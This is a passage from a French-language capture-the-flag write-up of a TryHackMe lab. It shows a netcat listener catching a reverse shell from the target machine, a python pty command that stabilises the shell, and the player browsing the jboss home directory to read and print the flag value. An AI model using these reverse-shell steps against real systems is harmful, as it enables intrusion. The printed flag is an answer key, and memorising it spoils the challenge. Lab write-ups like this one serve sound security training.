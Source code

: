 
**I have obtained a shell.**

```bash
lvnp: forward host lookup failed: Unknown host
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.9.228.66] from (UNKNOWN) [10.10.147.18] 42108
whoami
cmnatic
```

On obtient un shell.   

##  Task 6 Find User JBoss' flag! ##
```bash
python -c 'import pty;pty.spawn("/bin/bash")'


cmnatic@thm-java-deserial:/$ cd home
cd home
cmnatic@thm-java-deserial:/home$ ls
ls
cmnatic  jboss  tony
cmnatic@thm-java-deserial:/home$ 

cmnatic@thm-java-deserial:/home$ cd jboss
cd jboss
cmnatic@thm-java-deserial:/home/jboss$ ls
ls -al

ls -al
total 36
drwxr-xr-x 3 jboss   jboss   4096 Mar  7  2020 .
drwxr-xr-x 5 root    root    4096 Mar  6  2020 ..
-rwxrwxrwx 1 jboss   jboss    206 Jul 26 08:32 .bash_history
-rw-r--r-- 1 jboss   jboss    220 Mar  6  2020 .bash_logout
-rw-r--r-- 1 jboss   jboss   3637 Mar  6  2020 .bashrc
drwx------ 2 jboss   jboss   4096 Mar  7  2020 .cache
-rw-rw-r-- 1 cmnatic cmnatic   38 Mar  6  2020 .jboss.txt
-rw-r--r-- 1 jboss   jboss    675 Mar  6  2020 .profile
-rw-r--r-- 1 cmnatic cmnatic  368 Mar  6  2020 note
cmnatic@thm-java-deserial:/home/jboss$ cat .jboss.txt
cat .jboss.txt
THM{50c10ad46b5793704601ecdad865eb06}
```
**
**This flag has the formatting of "THM{}"**


On stabilise le shell.   
Puis on lit le fichier .jboss.txt.
On trouve le flag.  
Le flag est : THM{50c10ad46b5793704601ecdad865eb06}  
